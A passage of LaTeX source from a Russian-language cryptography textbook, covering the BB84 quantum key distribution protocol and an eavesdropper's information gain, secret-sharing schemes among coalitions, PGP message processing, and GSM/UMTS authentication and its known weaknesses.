        \[ A \rightarrow B: ~ t_A, ~ E_{K_B}(K, A), ~ S_A(t_A, ~ K, ~ E_{K_B}(K, A)). \]
    \item Сторона $B$ получает это сообщение, расшифровывает $\left( K, ~ A \right)$ и проверяет подпись $S_A(t_A, ~ K, ~ E_{K_B}(K, A))$.
\end{enumerate}

\input{diffie-hellman}

%\section{Протоколы с аутентификацией}

\subsection{Односторонняя аутентификация}

\input{el-gamal_protocol}

\input{mti}

\input{sts}

\input{girault_scheme}

\input{bloms_scheme}

\section{Квантовые протоколы}\index{протокол!квантовые|(}

\subsection{Протокол BB84}\index{протокол!BB84|(}
\selectlanguage{russian}

В 1984 году Чарлз Беннет (\langen{Charles Henry Bennett}) и Жиль Брассар (\langfr{Gilles Brassard}) предложили новый квантовый протокол распределения ключа~\cite{Bennett:Brassard:1984}. Как и у других протоколов, его целью является создание нового сеансового ключа, который в дальнейшем можно использовать в классической симметричной криптографии. Однако особенностью протокола является использование отдельных положений квантовой физики для гарантии защиты получаемого ключа от перехвата злоумышленником.

До начала очередного раунда генерации сеансового ключа предполагается, что у Алисы и Боба, как у участников протокола, имеется:

\begin{itemize}
	\item квантовый канал связи (например, оптоволокно);
	\item классический канал связи.
\end{itemize}

Протокол гарантирует, что вмешательство злоумышленника в протокол можно заметить вплоть до тех пор, пока злоумышленник не сможет контролировать и чтение, и запись на всех каналах общения сразу.

Протокол состоит из следующих этапов:

\begin{itemize}
	\item передача Алисой и приём Бобом фотона по квантовому каналу связи;
	\item передача Бобом информации об использованных анализаторах;
	\item передача Алисой информации о совпадении выбранных анализаторов и исходных поляризаций.
\end{itemize}


\subsubsection{Генерация фотона}

В первой части протокола, с точки зрения физика-экспериментатора, Алиса берёт единичный фотон и поляризует под одним из четырёх углов: 0, 45, 90 или 135. Будем говорить, что Алиса сначала выбрала базис поляризации (<<+>> или <<?>>), а затем выбрала в этом базисе одно из двух направлений поляризации:

\begin{itemize}
	\item $0^{\circ}$ (<<$\rightarrow$>>) или $90^{\circ}$ (<<$\uparrow$>>) в первом базисе (<<+>>);
	\item $45^{\circ}$ (<<$\nearrow$>>) или $135^{\circ}$ (<<$\nwarrow$>>) во втором базисе (<<×>>).
\end{itemize}

С точки зрения квантовой физики, мы можем считать, что у нас есть система с двумя базовыми состояниями: $|0\rangle$ и $|1\rangle$. Состояние системы в любой момент времени можно записать как $| \psi \rangle = \cos \alpha |0\rangle + \sin \beta |1\rangle$. Так как четыре выбранных Алисой возможных исходных состояния неортогональны между собой (точнее, не все попарно), то из законов квантовой физики следует два важных момента:

\begin{itemize}
	\item невозможность клонировать состояние фотона;
	\item невозможность достоверно отличить неортогональные состояния друг от друга.
\end{itemize}

С точки зрения специалиста по теории информации, можем считать, что Алиса использует две независимые случайные величины $X_A$ и $A$ с энтропией по 1 биту каждая, чтобы получить новую случайную величину $Y_A = f \left( X_A; A \right)$, передаваемую в канал связи.

\begin{itemize}
	\item $H \left( A \right) = 1~\text{бит}$, выбор базиса поляризации (<<+>> или <<×>>);
	\item $H \left( X \right) = 1~\text{бит}$, само сообщение, выбор одного из двух направлений поляризации в базисе.
\end{itemize}

\subsubsection{Действия злоумышленника}

Как физик-экспериментатор, Ева может попытаться встать посередине канала и сделать что-то с фотоном. Может попытаться просто уничтожить фотон или послать вместо него случайный. Хотя последнее приведёт к тому, что Алиса и Боб не смогут сгенерировать общий сеансовый ключ, полезную информацию Ева из этого не извлечёт.

Ева может попытаться пропустить фотон через один из поляризаторов и попробовать поймать фотон детектором. Если бы Ева точно знала, что у фотона может быть только два ортогональных состояния (например, вертикальная <<$\uparrow$>> или горизонтальная <<$\rightarrow$>> поляризация), то она могла бы вставить на пути фотона вертикальный поляризатор <<$\uparrow$>> и по наличию сигнала на детекторе определить, была ли поляризация фотона вертикальной (1, есть сигнал) или горизонтальной (0, фотон через поляризатор не прошёл и сигнала нет). Проблема Евы в том, что у фотона не два состояния, а четыре. И никакое положение одного поляризатора и единственного детектора не поможет Еве точно определить, какое из этих четырёх состояний принял фотон. А пропустить фотон через два детектора не получится. Во-первых, если фотон прошёл вертикальный  поляризатор, то какой бы исходной у него не была поляризация (<<$\nwarrow$>>, <<$\uparrow$>>, <<$\nearrow$>>), после поляризатора она станет вертикальной <<$\uparrow$>> (вторая составляющая <<сотрётся>>). Во-вторых, детектор, преобразуя фотон в электрический сигнал, тем самым уничтожает его, что несколько затрудняет его дальнейшие измерения.

Кроме того, двух или даже четырёх детекторов для одного фотона будет мало. Отличить между собой неортогональные поляризации <<$\uparrow$>> и <<$\nearrow$>> можно только статистически, так как каждая из них будет проходить и вертикальный <<$\uparrow$>>, и диагональный <<$\nearrow$>> поляризаторы, но с разными вероятностями (100\% и 50\%).

С точки зрения квантовой физики, Ева может попытаться провести измерение свойств фотона, что приведёт к \emph{коллапсу волновой функции} (или же \emph{редукции фон Неймана}) фотона. То есть после действия оператора измерения на волновую функцию фотона она неизбежно меняется, что приведёт к помехам в канале связи, которые могут обнаружить Алиса и Боб. Невозможность достоверно отличить неортогональные состояния мешает Еве получить полную информацию о состоянии объекта, а запрет клонирования мешает повторить измерение с дубликатом системы.

С точки зрения теории информации, мы можем рассмотреть фактически передаваемое состояние фотона как некоторую случайную величину $Y_A$. Ева использует случайную величину $E$ (выбор пары ортогональных направлений поляризатора – <<+>> либо <<×>>) для получения величины $Y_E$ как результата измерения $Y_A$. При этом для каждого заданного исходного состояния Ева получает на выходе:

\begin{itemize}
	\item аналогичное состояние с вероятностью 50\% (вероятность выбора пары ортогональных направлений поляризатора, совпадающих с выбранными Алисой);
	\item одно из двух неортогональных оригинальному состояний с вероятностью 25\% каждое.
\end{itemize}

Таким образом, условная энтропия величины $Y'$, измеренной Евой, относительно величины $Y$, переданной Алисой, равна:
\[ H \left( Y_E | Y_A \right) = - \frac{1}{2} \log_2 \frac{1}{2} - \frac{1}{4} \log_2 \frac{1}{4} - \frac{1}{4} \log_2 \frac{1}{4} = 1,5~\text{бит}. \]

И взаимная информация между этими величинами равна:
\[ I \left( Y_E ; Y_A \right) = H \left( Y_E \right) - H ( Y_E | Y_A ) = 0,5~\text{бит}.\]

Что составляет 25\% от энтропии, передаваемой по каналу случайной величины $Y$.

Если рассматривать величину $X_E$, которую Ева пытается восстановить из принятой ею величины $Y_E$, то с точки зрения теории информации, ситуация ещё хуже:

\begin{itemize}
	\item при угаданном базисе поляризатора Ева получает исходную величину $X_E = X_A$;
	\item при неугаданном базисе ещё в половине случаев криптоаналитик получает исходную величину (из-за случайного прохождения фотона через <<неправильный>> поляризатор).
\end{itemize}

Получается, что условная энтропия восстанавливаемой Евой последовательности $X_E$ относительно исходной $X_A$ равна:
\[ H \left( X_E | X_A \right) = - \frac{3}{4} \log \frac{3}{4} - \frac{1}{4} \log \frac{1}{4} \approx 0,81~\text{бит.}\]

И взаимная информация
\[ I \left( X_E; X_A \right) = H \left( X_E \right) - H \left( X_E | X_A \right) \approx 0,19~\text{бит}. \]

Что составляет $\approx 19\%$ от энтропии исходной случайной величины $X_A$.

Оптимальным алгоритмом дальнейших действий Евы будет послать Бобу фотон в полученной поляризации (передать далее в канал полученную случайную величину $Y_E$). То есть если Ева использовала вертикальный поляризатор <<$\uparrow$>>, и детектор зафиксировал наличие фотона, то передавать фотон в вертикальной поляризации <<$\uparrow$>>, а не пытаться вводить дополнительную случайность и передавать <<$\nwarrow$>> или <<$\nearrow$>>.

\subsubsection{Действия легального получателя}

Боб, аналогично действиям Евы (хотя это скорее Ева пытается имитировать Боба), случайным образом выбирает ортогональную пару направлений поляризации (<<+>> либо <<×>>) и ставит на пути фотона поляризатор (<<$\uparrow$>> или <<$\nwarrow$>>) и детектор. В случае наличия сигнала на детекторе он записывает единицу, в случае отсутствия – ноль.

Можно сказать, что Боб, как и Ева, вводит новую случайную величину B (отражает выбор базиса поляризации Бобом) и в результате измерений получает новую случайную величину $X_B$. Причём Бобу пока неизвестно, использовал ли он оригинальный сигнал $Y_A$, переданный Алисой, или же подложный сигнал $Y_E$, переданный Евой:

\begin{itemize}
	\item $X_{B1} = f \left( Y_A, B \right);$
	\item $X_{B2} = f \left( Y_E, B \right).$
\end{itemize}

Далее Боб сообщает по открытому общедоступному классическому каналу связи, какие именно базисы поляризации использовались, а Алиса указывает, какие из них совпали с изначально выбранными. При этом сами измеренные значения (прошёл фотон через поляризатор или нет) Боб оставляет в секрете.

Можно сказать, что Алиса и Боб публикуют значения сгенерированных ими случайных величин $A$ и $B$. Примерно в половине случаев эти значения совпадут (когда Алиса подтверждает правильность выбора базиса поляризации). Для тех фотонов, у которых значения $A$ и $B$ совпали, совпадут и значения $X_A$ и $X_{B1}$. То есть:

\begin{itemize}
	\item $H \left( X_{B1} | X_A; A = B \right) = 0~\text{бит}$,
	\item $I \left( X_{B1} ; X_A | A = B \right) = 1~\text{бит}$.
\end{itemize}

Для тех фотонов, для которых Боб выбрал неправильный базис поляризации, значения $X_{B1}$ и $X_{A}$ будут представлять собой независимые случайные величины (так как, например, при исходной диагональной поляризации фотон пройдёт и через вертикальную, и через горизонтальную щели с вероятностью 50\%):

\begin{itemize}
	\item $H \left( X_{B1} | X_A; A \neq B \right) = 1~\text{бит},$
	\item $I \left( X_{B1} ; X_A | A \neq B \right) = 0~\text{бит}.$
\end{itemize}

Рассмотрим случай, когда Ева вмешалась в процесс передачи информации между Алисой и Бобом и отправляет Бобу уже свои фотоны, но не имеет возможности изменять информацию, которой Алиса и Боб обмениваются по классическому каналу связи. Как и прежде, Боб отправляет Алисе выбранные базисы поляризации (значения $B$), а Алиса указывает, какие из них совпали с выбранными ею значениями $A$.

Но теперь для того чтобы Боб получил корректное значение $X_{B2}$ ($X_{B2} = X_A$), должны быть выполнены все следующие условия для каждого фотона:

\begin{itemize}
	\item Ева должна угадать базис поляризации Алисы ($E = A$).
	\item Боб должен угадать базис поляризации Евы ($B = E$).
\end{itemize}

Рассмотрим без ограничения общности вариант, когда Алиса использовала диагональную поляризацию <<×>>:

\begin{tabular}{ | c | c | c | c | }
\hline
Базис & Базис & Базис & \\
Алисы & Евы & Боба & Результат \\
\hline
<<×>> & <<×>> & <<×>> & принято без ошибок \\
<<×>> & <<×>> & <<+>> & отклонено \\
<<×>> & <<+>> & <<×>> & принято с ошибками\\
<<×>> & <<+>> & <<+>> & отклонено \\
\hline
\end{tabular}

При этом Боб и Алиса будут уверены, что в первом и третьем случаях (которые с их точек зрения ничем не отличаются) Боб корректно восстановил поляризацию фотонов. Так как все эти строки равновероятны, то получается, что у Боба и Алисы после выбора только фотонов с <<угаданным>> базисами (как они уверены) только половина поляризаций (значений $X_A$ и $X_{B2}$) будет совпадать. При этом Ева будет эти значения знать. Количество известных Еве бит <<общей>> последовательности и доля ошибок в ней находятся в линейной зависимости от количества перехваченных Евой бит.

Вне зависимости от наличия или отсутствия Евы Алиса и Боб вынуждены использовать заранее согласованную процедуру исправления ошибок. Используемый код коррекции ошибок, с одной стороны, должен исправлять ошибки, вызванные физическими особенностями квантового канала. Но с другой стороны, если код будет исправлять слишком много ошибок, то он скроет от нас потенциальный факт наличия Евы. Доказано, что существуют такие методы исправления ошибок, которые позволяют безопасно (без опасности раскрыть информацию Еве) исправить от 7,5\% (Майерз, 2001, \cite{Mayers:2001}) до 11\% ошибок (Ватанабе, Матсумото, Уйематсу, 2005,~\cite{Watanabe:Matsumoto:Uyematsu:2005}).

Интересен также вариант, когда Ева может изменять информацию, передаваемую не только по оптическому, но и по классическому каналам связи. В этом случае многое зависит от того, в какую сторону (от чьего имени) Ева может подделывать сообщения. В самом негативном сценарии, когда Ева может выдать себя и за Алису, и за Боба, будет иметь место полноценная атака <<человек-посередине>> (\langen{man-in-the-middle}), от которой невозможно защититься никаким способом, если не использовать дополнительные защищённые каналы связи или не основываться на информации, переданной заранее. Однако, это будет уже совсем другой протокол.

Подводя итоги, можно сказать, что квантовые протоколы распределения ключей (а именно ими пока что и ограничивается вся известная на сегодняшний день <<квантовая криптография>>) обладают как определёнными преимуществами, так и фатальными недостатками, затрудняющими их использование (и ставящими под вопрос саму эту необходимость):

\begin{itemize}
	\item Любые квантовые протоколы (как и вообще любые квантовые вычисления) требуют оригинального дорогостоящего оборудования, которое пока что нельзя сделать частью commodity-устройств или обычного сотового телефона.
	\item Квантовые каналы связи -- это всегда физические каналы связи. У них существует максимальная длина канала и определённый уровень ошибок. Для квантовых каналов (на сегодняшний день) не придумали <<повторителей>>, которые бы позволили бы увеличить длину безусловно квантовой передачи данных.
	\item Ни один квантовый протокол (на сегодняшний день) не может обходиться без дополнительного классического канала связи. Для такого связи требуются как минимум такой же уровень защиты, как и при использовании, например, криптографии с открытым ключом.
	\item Для всех протоколов особую проблему представляет не только доказательство корректности (что является весьма нетривиальным делом в случае наличия <<добросовестных>> помех), но и инженерная задача по реализации протокола в <<железе>>. В качестве краткой иллюстрации, например, не существует простого способа создать \emph{ровно один} фотон. Недогенерация фотонов приводит, очевидно, к ошибкам передачи, а генерация дубля в том же временном слоте -- к возможности его перехвата злоумышленником без создания помех в канале.
\end{itemize}

\index{протокол!BB84|)}
\index{протокол!квантовые|)}



\chapter{Разделение секрета}
\selectlanguage{russian}

\section{Пороговые схемы}

Идея \emph{пороговой} $(K, N)$-схемы\index{разделение секрета!пороговое} разделения общего секрета среди $N$ пользователей состоит в следующем. Доверенная сторона хочет распределить некий секрет $K_0$ между $N$ пользователями таким образом, что:
\begin{itemize}
    \item любые $m_1: K \leq m_1 \leq N$ легальных пользователей могут получить секрет (или доступ к секрету), если предъявят свои секретные ключи;
    \item любые $m_2: m_2 < K$, легальных пользователей не могут получить секрет и не могут определить (вычислить) этот секрет, даже решив трудную в вычислительном смысле задачу.
\end{itemize}

Далее рассмотрены три случая: $(K, N)$-схема Блэкли, $(K, N)$-схема Шамира и простая $(N,N)$-схема.

\input{secret-sharing-blackleys}

\input{secret-sharing-shamirs}

\input{secret-sharing-xor}

\section{Распределение секрета по коалициям}

\subsection{Схема для нескольких коалиций}

Предположим, что имеется $N$ легальных пользователей
    \[ \{ U_1, U_2, \dots, U_N \}, \]
которым нужно сообщить (открыть, предоставить в доступ) общий секрет $K$.

Секрет может быть доступен только определённым коалициям\index{распределение секрета!по коалициям}, например:
\[ \begin{array}{l}
    C_1 = \{ U_1, U_2 \}, \\
    C_2 = \{ U_1, U_3, U_4 \}, \\
    C_3 = \{ U_2, U_3 \}, \\
    \dots
\end{array} \]
При этом ни одна из коалиций $C_i, ~ i = 1, 2, \dots$ не должна быть подмножеством другой коалиции.


\example
Имеется 4 участника:
    \[ \{ U_1, U_2, U_3, U_4 \}, \]
которые образуют 3 коалиции:
\[ \begin{array}{l}
    C_1 = \{ U_1, U_2 \}, \\
    C_2 = \{ U_1, U_3 \}, \\
    C_3 = \{ U_2, U_3, U_4 \}. \\
\end{array} \]
Распределение частичных секретов между ними представлено в виде таблицы~\ref{tab:secret-share-coalition-1}, в которой введены следующие обозначения: $a_1, b_1, c_2, c_3$ -- случайные числа из кольца $\Z_M$. В строках таблицы содержатся частичные секреты каждого из пользователей, в столбцах таблицы показаны частичные секреты, соответствующие каждой из коалиций.

\begin{table}[!ht]
    \centering
    \caption{Распределение секрета по определённым коалициям\label{tab:secret-share-coalition-1}}
    \begin{tabular}{|c||c|c|c|}
        \hline
              & $C_1 = \{ U_1, U_2 \}$ & $C_2 = \{U_1, U_3 \}$ & $C_3 = \{ U_2, U_3, U_4 \}$ \\
        \hline \hline
        $U_1$ & $a_1$     & $b_1$     & -- \\
        $U_2$ & $K - a_1$ & --        & $c_2$ \\
        $U_3$ & --        & $K - b_1$ & $c_3$  \\
        $U_4$ & --        & --        & $K - c_2 - c_3$ \\
        \hline
    \end{tabular}
\end{table}

Как видно из приведённых данных, суммирование по модулю $M$ чисел, записанных в каждом из столбцов таблицы, открывает секрет $K$.
\exampleend


\example

%\section{Схема разделения секрета на монотонных булевых функциях}
%\example
В системе распределения секрета доверенный
%с использованием монотонных булевых функций
центр использует кольцо $\Z_m$ целых чисел по модулю $m$. Требуется разделить секрет $K$ между $5$ пользователями:
    \[ \{ U_1, U_2, U_3, U_4, U_5 \} \]
так, чтобы восстановить секрет могли только коалиции:
\[ \begin{array}{lll}
    C_1 = \{ U_1, U_2 \},      & & C_2 = \{ U_1, U_3 \}, \\
    C_3 = \{ U_2, U_3, U_4 \}, & & C_4 = \{ U_2, U_3, U_5 \}, \\
    C_5 = \{ U_3, U_4, U_5 \}, & & C_6 = \{ U_1, U_2, U_3 \}. \\
\end{array} \]

Заданное множество коалиций с доступом не является минимальным, так как одни коалиции входят в другие:
    \[ C_1 \subset C_6, ~ C_2 \subset C_6. \]
Исключая $C_6$, получим минимальное множество коалиций с доступом к секрету -- ни одна из оставшихся коалиций не входит в другую $C_i \nsubseteq C_j$ для $i \neq j$. Пользователям выдаются тени по минимальному множеству коалиций с доступом. В строках таблицы~\ref{tab:secret-share-coalition-2} содержатся частичные секреты каждого из пользователей, в столбцах таблицы показаны частичные секреты, соответствующие каждой из коалиций.

\begin{table}[!ht]
    \centering
    \caption{Распределение секрета по определённым коалициям\label{tab:secret-share-coalition-2}}
    \begin{tabular}{|c||c|c|c|c|c|}
        \hline
              & $C_1$     & $C_2$     & $C_3$           & $C_4$           & $C_5$  \\
        \hline \hline
        $U_1$ & $a_1$     & $b_1$     & --              & --              & -- \\
        $U_2$ & $K - a_1$ & --        & $c_2$           & $d_2$           & --\\
        $U_3$ & --        & $K - b_1$ & $c_3$           & $d_3$           & $e_3$ \\
        $U_4$ & --        & --        & $K - c_2 - c_3$ & --              & $e_4$ \\
        $U_5$ & --        & --        & --              & $K - d_2 - d_3$ & $K - e_3 - e_4$ \\
        \hline
    \end{tabular}
\end{table}

Тени выбираются случайно из кольца $\mathbb{\Z}_m$. В результате у пользователей будут тени. 
\exampleend

\input{secret-sharing-brickells}


\chapter{Примеры систем защиты}

\input{kerberos}

\section{Pretty Good Privacy}
\selectlanguage{russian}

В качестве примера передачи файлов по сети с обеспечением аутентификации, конфиденциальности и целостности рассмотрим систему PGP (\langen{Pretty Good Privacy}), разработанную Филом Циммерманном (\langen{Phil Zimmermann}) в 1991 г. Изначально система предлагалась к использованию для защищённой передачи электронной почты. Стандартом PGP является OpenPGP. Примерами реализации стандарта OpenPGP являются GNU Privacy Guard (GPG) и netpgp, разработанные в рамках проектов GNU и NetBSD соответственно.

Каждый пользователь обладает одной или несколькими парами из закрытого и открытого ключей. Ключи используются как для расшифрования получаемых пользователем сообщений, так и для генерации электронных подписей отправляемых сообщений. Также пользователь хранит открытые ключи других участников системы, чтобы иметь возможность отправлять им зашифрованные сообщения и аутентифицировать отправителей принимаемых сообщений.

В системе PGP каждое передаваемое сообщение подписывается закрытым ключом отправителя, затем сообщение шифруется блочной криптосистемой на случайно выбранном секретном сеансовом ключе. Сам сеансовый ключ шифруется криптосистемой с открытым ключом на открытом ключе получателя.

Свои закрытые ключи отправитель хранит в зашифрованном виде. Набор ключей называется связкой закрытых ключей. Шифрование закрытых ключей в связке производится симметричным шифром\index{шифр!симметричный}, ключом которого является функция от пароля, вводимого пользователем. Шифрование закрытых ключей, хранимых на компьютере, является стандартной практикой для защиты от утечки, например в случае взлома ОС, утери ПК и~т.\,д.

Набор открытых ключей других пользователей называется связкой открытых ключей.

\begin{figure}[!ht]
	\centering
	
\includegraphics[width=0.9\textwidth]{pic/pgp}
	\caption{Схема обработки сообщения в PGP\label{fig:pgp}}
\end{figure}

На рис.~\ref{fig:pgp} представлена схема обработки сообщения в PGP для передачи от $A$ к $B$. Использование аутентификации, сжатия и блочного шифрования является опциональным. Обозначения на рисунке следующие:
\begin{itemize}
    \item Пароль -- пароль, вводимый отправителем для расшифрования связки своих закрытых ключей;
    \item $D$ -- расшифрование блочной криптосистемы для извлечения секретного ключа ЭП отправителя;
    \item $SK_A$ -- закрытый ключ ЭП отправителя;
    \item $ID_{SKa}$ -- идентификатор ключа ЭП отправителя, по которому получатель определяет, какой ключ из связки открытых ключей использовать для проверки подписи;
    \item $m$ -- сообщение (файл) для передачи;
    \item $h(m)$ -- криптографическая хэш-функция;
    \item $E_{SKa}$ -- схема ЭП на секретном ключе $SK_A$;
    \item $\|$ -- конкатенация битовых строк;
    \item $Z$ -- сжатие сообщения алгоритмом компрессии;
    \item $RND$ -- криптографический генератор псевдослучайной последовательности;
    \item $K_s$ -- сгенерированный псевдослучайный сеансовый ключ;
    \item $E_{Ks}$ -- блочное шифрование на секретном сеансовом ключе $K_s$;
    \item $PK_B$ -- открытый ключ получателя;
    \item $ID_{PKb}$ -- идентификатор открытого ключа получателя, по которому получатель определяет, какой ключ из связки закрытых ключей использовать для расшифрования сеансового ключа;
    \item $E_{PKb}$ -- шифрование сеансового ключа криптосистемой с открытым ключом на открытом ключе $B$;
    \item $c$ -- зашифрованное подписанное сообщение.
\end{itemize}


\input{tls}

\input{ipsec}

\section[Защита персональных данных в мобильной связи]{Защита персональных данных в \protect\\ мобильной связи}

\subsection{GSM (2G)}
\selectlanguage{russian}

Регистрация телефона в сети GSM построена с участием трёх сторон: SIM-карты мобильного устройства, базовой станции и центра аутентификации. SIM-карта и центр аутентификации обладают общим секретным 128-битным ключом $K_i$. Вначале телефон сообщает базовой станции уникальный идентификатор SIM-карты IMSI открытым текстом. Базовая станция запрашивает в центре аутентификации для данного IMSI набор параметров для аутентификации. Центр генерирует псевдослучайное 128-битовое число $\textrm{RAND}$ и алгоритмами A3\index{алгоритм!A3} и A8\index{алгоритм!A8} создаёт симметричный 54-битовый ключ $K_c$ и 32-битовый аутентификатор $\textrm{RES}$. Базовая станция передаёт мобильному устройству число $\textrm{RAND}$ и ожидает результата вычисления SIM-картой числа $\textrm{XRES}$, которое должно совпасть с $\textrm{RES}$ в случае успешной аутентификации. Схема аутентификации показана на рис.~\ref{fig:gsm2}.

\begin{figure}[!ht]
	\centering
	\includegraphics[width=0.85\textwidth]{pic/gsm2}
	\caption{Односторонняя аутентификация и шифрование в GSM\label{fig:gsm2}}
\end{figure}

Все вычисления для аутентификации выполняет SIM-карта. Ключ $K_c$ далее используется для создания ключа шифрования каждого фрейма $K = K_c ~\|~ n_F$, где $n_F$~--~22-битовый номер фрейма. Шифрование выполняет уже само мобильное устройство. Алгоритм шифрования фиксирован в каждой стране и выбирается из семейства алгоритмов A5\index{шифр!A5} (A5/1, A5/2, A5/3). В GSM применяется либо шифр A5/1 (используется в России), либо A5/2. Шифр A5/3 применяется уже в сети UMTS.

Аутентификация в сети GSM односторонняя. При передаче данных не используются проверка целостности и аутентификация сообщений. Передача данных между базовыми станциями происходит в открытом незашифрованном виде. Алгоритмы шифрования A5/1 и A5/2 нестойкие, количество операций для взлома A5/1~--~$2^{40}$, A5/2~--~$2^{16}$. Кроме того, длина ключа $K_c$ всего 54 бита. Передача в открытом виде уникального идентификатора IMSI позволяет однозначно определить абонента.


\subsection{UMTS (3G)}
\selectlanguage{russian}

В третьем поколении мобильных сетей, называемом UMTS, защищённость немного улучшена. Общая схема аутентификации (рис.~\ref{fig:gsm3}) осталась примерно такой же, как и в GSM. Жирным шрифтом на рисунке выделены новые добавленные элементы по сравнению с GSM.
\begin{enumerate}
    \item Производится взаимная аутентификация SIM-карты и центра аутентификации по токенам $\textrm{RES}$ и $\MAC$.
    \item Добавлены проверка целостности и аутентификация данных (имитовставка\index{имитовставка}).
    \item Используются новые алгоритмы создания ключей, шифрования и имитовставки\index{имитовставка}.
    \item Добавлены счётчики на SIM-карте $\textrm{SQN}_{\textrm{T}}$ и в центре аутентификации $\textrm{SQN}_{\textrm{Ц}}$ для защиты от атак воспроизведения. Значения увеличиваются при каждой попытке аутентификации и должны примерно совпадать.
    \item Увеличена длина ключа шифрования до 128 бит.
\end{enumerate}

\begin{figure}[!ht]
	\centering
	\includegraphics[width=\textwidth]{pic/gsm3}
	\caption{Взаимная аутентификация и шифрование в UMTS (3G)\label{fig:gsm3}}
\end{figure}

Обозначения на рис.~\ref{fig:gsm3} следующие:
\begin{itemize}
    \item $K$ -- общий секретный 128-битовый ключ SIM-карты и центра аутентификации;
    \item $\textrm{RAND}$ -- 128-битовое псевдослучайное число, создаваемое центром аутентификации;
